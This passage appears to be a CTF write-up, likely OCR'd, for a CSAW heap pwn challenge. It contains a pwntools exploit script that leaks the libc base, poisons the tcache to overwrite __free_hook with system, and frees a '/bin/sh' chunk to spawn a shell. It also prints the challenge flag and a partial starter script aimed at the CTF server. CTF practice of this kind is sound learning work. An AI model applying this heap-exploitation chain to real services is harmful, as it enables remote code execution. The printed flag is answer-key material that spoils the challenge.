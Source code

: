 ```python
        sla(b":", str(size).encode())
        sla(b":", payload)
        
def show(option, idx):
        sla(b">", str(option).encode())
        sla(b">", str(4).encode())
        sla(b":", str(idx).encode())
        p.recvuntil(b'content: \n')
        return u64(p.recvuntil(b'Do', drop = True).ljust(8, b'\0'))

# leak libc
add(2, 1280) # c0
add(2, 0x70) # c1
free(2, 0)
libc.address = show(2,0) - 0x1ecbe0
info("libc base: " + hex(libc.address))

# free_hook
add(2, 0x70) # c2
free(2, 2)
free(2, 1)
add(1, 0x70) # k0
free(2, 1)
set_key(0, 0x30, p64(libc.sym.__free_hook))


add(1, 0x70) # k1
add(1, 0x70) # k2 == free_hook
set_key(2, 0x60, p64(libc.sym.system))
set_key(0, 0x60, b'/bin/sh\0')
free(1, 0)
# csawctf{_d0es_Borat_aPpr0ve_oF_tH3_n3w_SsH?}


p.interactive()

```

**by me :)) :** 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./super_secure_heap_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
p = remote('pwn.csaw.io', 9998)
# p = process([exe.path])

# gdb.attach(p, gdbscript = '''
# b*add+116
# b*delete+73
# b*show+94
# b*set+298
# b*set+382
# b*menu+272
# c
# ''')

input()
```